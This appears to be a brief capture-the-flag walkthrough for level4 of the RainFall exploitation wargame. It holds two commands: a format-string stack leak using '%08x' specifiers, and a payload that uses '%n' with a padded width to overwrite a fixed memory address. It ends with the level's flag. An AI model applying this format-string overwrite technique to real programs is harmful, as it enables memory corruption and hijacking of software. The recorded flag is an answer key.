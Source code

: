 # Walkthrough level4

```bash
level4@RainFall:~$ python -c "print('AAAA' + '%08x ' * 20)" | ./level4
AAAAb7ff26b0 bffff784 b7fd0ff4 00000000 00000000 bffff748 0804848d bffff540 00000200 b7fd1ac0 b7ff37d0 41414141 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078
```

```bash
level4@RainFall:~$ python -c "print('\x10\x98\x04\x08' + '%08x ' * 10 + '%16930022d%n')" > /tmp/a
(...)
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

Addresse is 12 addresses further.
